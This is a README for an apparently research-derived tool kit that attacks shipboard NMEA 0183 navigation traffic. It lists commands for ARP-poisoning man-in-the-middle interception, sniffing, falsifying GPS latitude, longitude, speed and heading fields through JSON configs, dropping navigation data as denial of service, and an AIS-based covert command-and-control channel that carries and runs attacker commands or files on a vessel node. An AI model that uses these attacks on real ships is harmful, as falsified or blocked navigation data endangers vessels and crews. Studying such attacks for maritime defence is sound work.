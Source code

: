 # NMEA_Tool_Kit

Tool kit for encoding, decoding **NMEA 0183 sentences of AIS, GPS** and to perform MITM attacks ship board navigational systems.

This scripts are tested in Ubuntu Machiene running ***Python 3.9.7*** with simulated NMEA 0183 data.

## Setup

To use the scriprs, install the modules in the ***requirements.txt***

> pip3 install requirements.txt


## Attack Modes

Script contains 4 attack options, run ***-h*** for help.

> python3 nmea_attacks.py -h

Before running the ***nmea_attacks.py***, need to run ***mitm_arp.py*** to start ARP poisoining to intercept traffic, Requires root privileges

> sudo python3 mitm_arp.py -t TARGET_IP -s SOURCE_IP -i INTERFACE_NAME

#### S - Sniffing Attack

Sniff all NMEA 0183 data in communication between targets.

```
sudo python3 nmea_attacks.py -t TARGET_IP -s SOURCE_IP -o S
```

#### M - Modification Attack

Modify NMEA sentence data fields based on json configuration file.

```
sudo python3 nmea_attacks.py -t TARGET_IP -s SOURCE_IP -o M -c CONFIG_FILE.json
```

For sample configuration refer ***mitm_config.json***

```
"GPGGA" : {
    "attributes" : [
        {
            "key" : "hdop",
            "value" : "2",
            "incremental": false
        },
        {
            "key" : "lon",
            "value": 100,
            "incremental" : true
        }
    ]
}
```
if incremental is ```true```, then specify value as ```integer or float``` (without quotes).

#### A - Attribute Modification

To target specific data fileds across all intercepted sentences if exists (eg. lat/lon).

```
sudo python3 nmea_attacks.py -t TARGET_IP -s SOURCE_IP -o A -c CONFIG_FILE.json
```

Refer ***attr_config.json*** for example

```
{
"attributes" : 
    [
        {
            "key" : "lat",
            "value" : 100,
            "incremental": true
        },
        {
            "key" : "spd_over_grnd",
            "value" : "10",
            "incremental": false
        },
        {
            "key": "heading",
            "value" : "20",
            "incremental" : false
        }

    ]
}
```

#### D - DoS attacks

Actively drop all NMEA 0183 data in transit

```
sudo python3 nmea_attacks.py -t TARGET_IP -s SOURCE_IP -o D
```

## AIS Command & Control

Use AIS as covert communication channel between attacker machine and attacker controlled node onboard the vessel. For detailed explation please refer

```
Ahmed Amro, Vasileios Gkioulos, "From Click To Sink: Utilizing AIS for command and control in maritime cyber attacks", 27th European Symposium on Research in Computer Security (ESORICS) 2022.
```
#### NOTE: 

#### Generate Payloads

To create AIS sentences with attacker payload use ***ais_cc.py**

For file payloads

```
python3 ais_cc.py -f FILE_NAME
```

For commands

```
python3 ais_cc.py -c "CMD"
```

#### Command & Control Execution

Attack option ***-o C*** in ***nmea_attacks.py*** demonstrates attack node executing payloads in AIS senetences.

```
sudo python3 nmea_attacks.py -t TARGET_IP -s SOURCE_IP -o C
```
